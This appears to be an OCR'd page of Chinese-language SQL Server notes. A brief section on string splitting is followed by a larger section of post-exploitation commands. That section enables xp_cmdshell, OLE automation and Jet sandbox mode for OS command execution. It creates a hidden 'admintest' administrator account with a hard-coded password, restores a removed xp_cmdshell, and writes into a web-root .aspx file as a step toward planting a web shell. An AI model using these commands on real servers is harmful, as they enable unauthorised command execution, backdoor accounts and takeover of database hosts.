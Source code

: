 ## 字符串分割

```sql
declare str vchar(100)
set str='1,2,3'
select * from tablename where id in (select str2table from StrToTable(@str) )
print charindex('abc','dfsaabc')--存在所以返回值为5（abc中的a在dfsaabc里的下标）
select charindex('8','06,08,09,10,47,48,49,53,54,55')
select SubString('12345',2,3)
select SubString('06,18,55',1,2)
select SubString('06,18,55',4,2)
select SubString('06,18,55',7,2)
```

## 开启权限

```sql
EXEC sp_configure 'show advanced options',1 --允许修改高级参数
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1  ---打开xp_cmdshell扩展
RECONFIGURE

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;

exec sp_configure
exec xp_cmdshell 'whoami'

exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1;
select * from openrowset('microsoft.jet.oledb.4.0',';database=ias\dnary.mdb','select shell("whoami")');

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:/windows/system32/cmd.exe /c net user admintest admintest123 /add'
Exec master.dbo.xp_cmdshell 'net user admintest admintest123 /add'
Exec master.dbo.xp_cmdshell 'net localgroup administrators admintest /add'

-- 方法2:查询分离器连接后 删除权限修复 不要乱执行哈
-- 第一步执行：use master
-- 第二步执行：sp_dropextendedproc 'xp_cmdshell'
-- 第一步执行:EXEC sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'declare @o int
-- 第二步执行:sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll'

-- 开启xp_cmdshell:
exec sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure'xp_cmdshell', 1;RECONFIGURE;
-- 关闭xp_cmdshell:
exec sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure'xp_cmdshell', 0;RECONFIGURE;

-- 开启'OPENROWSET':
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure'Ad Hoc Distributed Queries',1;RECONFIGURE;
-- 开启'sp_oacreate':
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure'Ole Automation Procedures',1;RECONFIGURE;
exec master.dbo.xp_dirtree 'c:\'
EXEC master.dbo.xp_cmdshell 'Echo 2 >>e:\root\Bootstrap2\Images\test.aspx'
-- 利用SQL沙盒模式
```